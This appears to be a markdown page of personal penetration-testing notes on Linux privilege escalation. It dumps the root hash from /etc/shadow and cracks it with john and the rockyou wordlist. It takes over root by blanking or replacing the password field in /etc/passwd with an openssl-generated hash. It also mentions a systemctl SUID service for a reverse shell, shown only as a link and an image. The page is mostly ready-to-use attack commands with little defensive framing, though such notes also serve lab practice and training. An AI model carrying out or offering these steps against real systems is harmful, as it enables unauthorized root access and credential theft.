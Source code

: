 ## Credentials Extraction
### Crack Shadow Hash
- If we can have access to the `/etc/shadow` file, then the first line is the root hash.

		head -n 1 /etc/shadow
		root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::

- In that case, the hash is this

		$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0

- Crack with john

		john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

### EXPLOIT PASSWD
The root account in /etc/passwd is usually configured like this:

	root:x:0:0:root:/root:/bin/bash

The `x` in the second field instructs Linux to look for the password hash in the /etc/shadow file.

- First way
	In some versions of Linux, it is possible to simply delete the “x”, which Linux interprets as the user having no password:

		root::0:0:root:/root:/bin/bash

- Second way
	Generate a password hash for the password “password” using openssl:

		openssl passwd "password"
		L9yLGxncbOROc

	Edit the /etc/passwd file and enter the hash in the second field of the root user row:

		root:L9yLGxncbOROc:0:0:root:/root:/bin/bash

## Create a service as root to get a reverse shell
https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49

SUID should be set on systemctl bin.

- Create a file for the service

	![image.png](../_resources/6dae2171256e208c9cac866aa4107518.png)
